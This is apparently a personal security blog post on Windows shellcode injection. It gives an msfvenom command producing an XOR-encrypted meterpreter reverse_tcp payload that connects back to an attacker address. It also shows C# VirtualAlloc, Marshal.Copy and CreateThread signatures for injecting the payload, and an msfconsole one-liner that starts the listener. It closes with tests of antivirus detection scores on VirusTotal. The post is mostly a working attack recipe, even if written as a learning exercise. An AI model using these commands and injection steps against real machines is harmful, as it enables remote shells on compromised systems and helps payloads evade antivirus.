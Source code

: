 ```yaml
---
title: Shellcode injection
published: true
---
```


<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is *`shellcode`* ?

In hacking, a `shellcode` is a `small piece of code used as the payload` in the exploitation of a software vulnerability. It is called "shellcode" because it typically `starts a command shell` from which the attacker can control the `compromised machine`, but any piece of code that performs a similar task can be called shellcode.

# [](#header-2) Methodology

* Generate `encrypted-xored` shellcode in csharp format with `msfvenom`. Don't forget to `store the encrypt-key to decrypt` the shellcode before inject it.

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f csharp --encrypt xor --encrypt-key 'k'
```
<br>


* VirtualAlloc: `Allocate memory` for the future process ran by shellcode.

```cs
[DllImport("kernel32.dll")] 
  private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,
    uint size,
    uint flAllocationType,
    uint flProtect
);
```
<br>

* Marshal.Copy: Copy shellcode byte to `destination memory block`. It's used to for moving the shellcode bytes to te `allocate memory` that we did with VirtualAlloc.
  
```cs 
Marshal.Copy(byte[] source,
    int startIndex,
    IntPtr destination,
    int size_source
);
```
<br>

* CreateThread: Create a `thread in our process` to execute the shellcode.

```cs  
private static extern IntPtr CreateThread(uint lpThreadAttributes,
    uint dwStackSize,
    IntPtr lpStartAddress,
    IntPtr param,
    uint dwCreationFlags,
    ref uint lpThreadId
);
```
<br>

* Run `handler` in metasploit and listen for `incoming connection`.

```console
msfconsole -q -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost 0.0.0.0;set lport 4444;run'
```

<br>

# Proof of concept

<video width="500" height="500" controls>
  <source src="../assets/shellcode_injection_poc.mp4" type="video/mp4">
</video>


# Result

Our malware is `detected by many antivirus as trojan` like `Windows Defender`. Unfortunaly, this technique is too old and easily detected for modern antivirus. But my curiosity wanted to test if `encrypt-xored payload has any effect on score detection`. I just recreate payload without any encryption and replace it in my code. I compiled the code into exe file and loaded it in [virustotal.com](https://virustotal.com) `to compare score`. The no-encryption `improve considerably the score` and multiply it by ~2. 

</br>   

### Score without any encryption

<img src="../assets/shellcode_injection_1.png">


### Score without xored encryption
<img src="../assets/shellcode_injection_2.png">

</br> 

# References

* [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)


* [https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)

* [https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow](https://www.youtube.com/watch?v=aNEqC-U5tHM&ab_channel=crow)
